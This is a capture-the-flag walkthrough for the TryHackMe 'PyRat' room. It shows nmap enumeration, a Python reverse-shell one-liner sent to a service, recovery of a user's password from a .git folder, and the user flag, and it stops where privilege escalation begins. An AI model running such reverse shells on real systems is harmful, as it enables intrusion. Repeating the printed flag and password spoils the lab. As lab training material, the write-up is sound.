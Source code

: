 # Try Hack Me : PyRat Walkthrough

# Enumeration

Let's start off by doing a nmap scan. Once we get the open ports, we can do a more deep scan only on the open ports.

```bash 
# Commands used
nmap -p- 10.10.244.43
nmap -A -p 22,8000 10.10.244.43
```
![1](./images/1.png)
![2](./images/2.png)

We can see there is a `http-alt` service running, this is used for having alternate network location to access the same resources.

- On navigating to `http://10.10.244.43:8000/` via the broswer, we get a message - *Try a more basic connection!*

Let's try NetCat `nc 10.10.244.43 8000`, we get a connection

![4](./images/4.png)

- From nmap we know that it is a python server, so we have to use python for further communication.

# Exploitation

- Now as the server is using python, let's setup a reverse shell. For this we have to find the python version that is being used
![5](./images/5.png)
- Now let us start a NetCat listener on our attacking machine `nc -lvnp 6969` and then run the below reverse shell on the server.
```python
import socket, subprocess, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(('10.10.64.140',6969)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(['/bin/sh','-i'])
```

- Now on exploring, we find there is another user `think`. So let us see what files this user has access to `find / -type f -perm -u=rw -user think -ls 2>/dev/null`
![6](./images/6.png)
- We find a `.git` folder in the `/opt` directory. Loooking into this we find the credentials for user `think`
*password - _TH1NKINGPirate$_*
![7](./images/7.png)

# Foothold

We can now login as user `think` via ssh `ssh think@10.10.244.43`
![8](./images/8.png)

***1. What is the user flag?** 
>996bdb1f619a68361417cabca5454705

# Privilege Escalation

Now that we are logged in as user `think` let's check the `/opt/dev/.git` directory.

![9](./images/9.png)






